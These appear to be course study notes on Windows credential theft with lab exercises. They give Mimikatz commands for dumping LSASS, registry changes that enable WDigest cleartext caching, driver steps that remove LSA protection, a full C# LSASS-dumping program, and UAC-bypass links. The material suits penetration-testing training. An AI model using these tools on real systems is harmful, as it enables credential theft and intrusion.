If we gain access to these hashes, we could crack them to obtain the clear text password or 
reuse them to perform various actions (which we’ll discuss in a later module)

Since LSASS is part of the operating system and runs as SYSTEM, we need SYSTEM (or local 
administrator) permissions to gain access to the hashes stored on a target. In addition, the data 
structures are not publicly documented and they are encrypted with an LSASS-stored key.

However, as administrator, the offsec user can use SeDebugPrivilege762 to read and modify a 
process under the ownership of a different user. To do this, we’ll use the Mimikatz 
privilege::debug command to enable the SeDebugPrivilege by calling AdjustTokenPrivileges

`mimikatz.exe`

`privilege::debug`

`sekurlsa::logonpasswords`

The wdigest763 authentication protocol requires a clear text password, but it is 
disabled in Windows 8.1 and newer. We can enable it by creating the 
UseLogonCredential registry value in the path 
`HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest`. Once we 
set this value to “1”, the clear text password will be cached in LSASS after 
subsequent logins.

Against mimikatz- MS has developed LSA protection and Windows defender credential guard.

There is something called Protected Processes Light. Which means that Processes running at SYSTEM integrity cannot tamper with proceseese in SYSTEM integrity along with PPL.

LSASS supports PPL protection,
766 which can be enabled in the registry. This is done through the 
RunAsPPL DWORD value in HKLM\SYSTEM\CurrentControlSet\Control\Lsa with a value of 1.

PPL protection is controlled by a bit residing in the EPROCESS kernel object associated with the 
target process. If we could obtain code execution in kernel space, we could disable the LSA 
protection and dump the credentials.
Luckily, this can be achieved with Mimikatz since it comes bundled with the mimidrv.sys driver.

We must be local administrator or SYSTEM to dump the credentials, which means we will also 
have the SeLoadDriverPrivilege privilege and the ability to load any signed drivers. Mimikatz can 
load the mimidrv.sys driver with the !+ command:

`!+`

once the driver is loaded we can use it to disable the PPL protection for LSASS through 

`!processprotect /process:lsass.exe /remove`

but loading of mimidrv.sys may triggr antivirus

### 12.3.2.1 Exercises
1. Log on to the Windows 10 victim VM as the offsec user and dump the cached credentials 
with Mimikatz.
2. Dump the cached credentials by calling the Mimikatz kiwi767 extension from Meterpreter.
3. Log on to the Windows 2019 server appsrv01 as the admin user and attempt to dump the 
cached credentials with Mimikatz.
4. Use the Mimikatz driver to disable LSA Protection on appsrv01 and dump the credentials

# processing credentials offline

We can dump memeory section from taget's lsass.

# memory Dump

GUI - using task manager - find lsass.exe and create dump file

When opening a dump file in Mimikatz, the target machine and the processing 
machine must have a matching OS and architecture. For example, if the dumped 
LSASS process was from a Windows 10 64-bit machine; we must also parse it on 
a Windows 10 or Windows 2016/2019 64-bit machine. However, processing the 
dump file requires neither an elevated command prompt nor privilege::debug


we can use mimikatz for dumping

`sekurlsa::minidump lsass.dump`

`securlsa::logonpasswords`

There is, however, one obvious disadvantage to this technique: Task Manager cannot be run as a 
command line tool, so we’ll need GUI access to the target. Alternatively, we can create the dump 
file from the command line with ProcDump769 from SysInternals

### 12.4.1.1 Exercises
1. Use Task Manager to create a dump file on your Windows 10 victim VM and parse it with 
Mimikatz.
2. Use ProcDump located in the C:\Tools\SysInternals folder to create a dump file and parse it 
with Mimikatz

# MiniDumpWriteDump

Creating our own tool to create a dump

we will use MiniDumpWriteDump

```
BOOL MiniDumpWriteDump(
 HANDLE hProcess,
 DWORD ProcessId,
 HANDLE hFile,
 MINIDUMP_TYPE DumpType,
 PMINIDUMP_EXCEPTION_INFORMATION ExceptionParam,
 PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
 PMINIDUMP_CALLBACK_INFORMATION CallbackParam
)
```

This function requires a lot of arguments, but only the first four are needed for our use case. The 
first two arguments (hProcess and ProcessId) must be a handle to LSASS and the process ID of 
LSASS, respectively.
The third argument (hFile) is a handle to the file that will contain the generated memory dump, 
and the fourth (DumpType) is an enumeration type771 that we’ll set to MiniDumpWithFullMemory
(or its numerical value of “2”) to obtain a full memory dump

## Full program for lsass dump

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;
namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
        IntPtr hFile, int DumpType, IntPtr ExceptionParam,
        IntPtr UserStreamParam, IntPtr CallbackParam);
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
        int processId);
        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp",
           FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;
            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid,
           dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero,
           IntPtr.Zero);
        }
    }
}
```

then call miikatz,

`sekurlsa::minidump lsass.dmp`

`sekurlsa::logonpasswords`

### 12.4.2.1 Exercises
1. Write and compile a C# application that creates a dump file from LSASS as shown in this 
section.
2. Create a PowerShell script that calls MiniDumpWriteDump to create a dump file

# trying token impersonation from

https://0x00-0x00.github.io/research/2018/10/17/Windows-API-and-Impersonation-Part1.html

https://github.com/hfiref0x/UACME - to get admin privilege and UAC bypass

akagi64 61 - pops an admin shell

search for impersonation with token


